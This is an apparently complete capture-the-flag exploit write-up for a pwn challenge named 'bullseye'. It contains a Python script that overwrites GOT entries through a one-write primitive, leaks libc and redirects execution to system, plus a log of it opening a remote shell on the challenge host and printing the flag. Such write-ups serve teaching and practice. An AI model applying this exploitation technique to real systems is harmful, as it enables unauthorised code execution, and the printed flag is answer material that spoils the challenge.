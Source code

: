 ```asm
from roppy import *
from time import sleep

# flag{one_write_two_write_good_write_bad_write}

HOST = "jh2i.com"
PORT = 50031


libc = ELF("libc6_2.30-0ubuntu2.1_amd64.so")
exit_got  = "0x404058"
sleep_got = "0x404060"
main      = "0x401260"
read_got  = "0x404038"

p = remote(HOST, PORT)

def send_data(where, what):
        p.sendlineafter("?\n", where)
        p.sendlineafter("?\n", what)


send_data(exit_got, main)
sleep(0xf)
alarm = int(p.recvline().strip(b"\n"), 16)
log.info("alarm:  0x%x" %(alarm))
libc.address = alarm - libc.function("alarm")
log.info("LIBC  :  0x%x" %(libc.address))
log.info("system:  0x%x" %(libc.function("system")))
send_data(sleep_got, main)

send_data("0x404040", hex(libc.function("system")))

p.interactive()
```

Running the exploit:-

```asm
0 [07:40:13] vagrant@oracle(oracle) pwn> python3 bullseye.py 
[*] Analyzing /home/vagrant/CTFs/hacktivity/pwn/libc6_2.30-0ubuntu2.1_amd64.so
[+] Opening connection to jh2i.com on port 50031: Done
[*] alarm:  0x7fbca7ea8be0
[*] LIBC  :  0x7fbca7dc3000
[*] system:  0x7fbca7e184e0
[*] Paused [Press any key to continue]
[*] Switching to interactive mode
You have one write, don't miss.

Where do you want to write to?
$ /bin/sh
$ cat flag.txt
flag{one_write_two_write_good_write_bad_write}
$ exit
sh: 2: �@: not found
What do you want to write?
[*] Got EOF while reading in interactive
[*] Interrupted
[*] Closed connection to jh2i.com port 50031
```
